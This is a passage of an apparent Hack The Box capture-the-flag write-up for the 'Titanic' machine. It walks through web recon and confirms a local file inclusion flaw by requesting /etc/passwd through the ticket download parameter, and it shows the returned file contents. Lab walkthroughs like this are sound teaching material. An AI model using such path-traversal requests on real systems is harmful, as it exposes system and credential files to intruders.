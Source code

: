 To resolve the redirect to titanic.htb, the hostname was added to /etc/hosts:

```bash
echo "10.10.11.55 titanic.htb" >> /etc/hosts
```

### Web Application

Upon visiting the site, a basic web interface is presented:

![Titanic - web page](/ctf/hack-the-box/machines/titanic/web-page.png)

Using Wappalyzer, we identified the backend technology as **Flask**, a Python web framework:

![Titanic - wappalyzer](/ctf/hack-the-box/machines/titanic/wappalyzer.png)

Clicking the `Book now` button reveals a booking form:

![Titanic - booking form](/ctf/hack-the-box/machines/titanic/booking-form.png)

Submitting the form downloads a `.json` ticket file with the following structure:

```json
{
  "name": "John Doe",
  "email": "john.doe@example.com",
  "phone": "1234567890",
  "date": "2021-01-01",
  "cabin": "Standard"
}
```

### Ticket Parameter

Using `Burp Suite` to intercept the response, we observed the download URL:

```text
/download?ticket=565f8e65-cf6d-49ff-9af1-35392f13d966.json
```

This suggests the `ticket` parameter accepts UUID-based filenames and may be vulnerable to `path traversal` or `LFI`.

### Local File Inclusion (LFI)

To test for LFI, we attempted to access `/etc/passwd`:

```text
/download?ticket=/etc/passwd
```

The request returned system file contents, confirming the LFI vulnerability:

```text
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
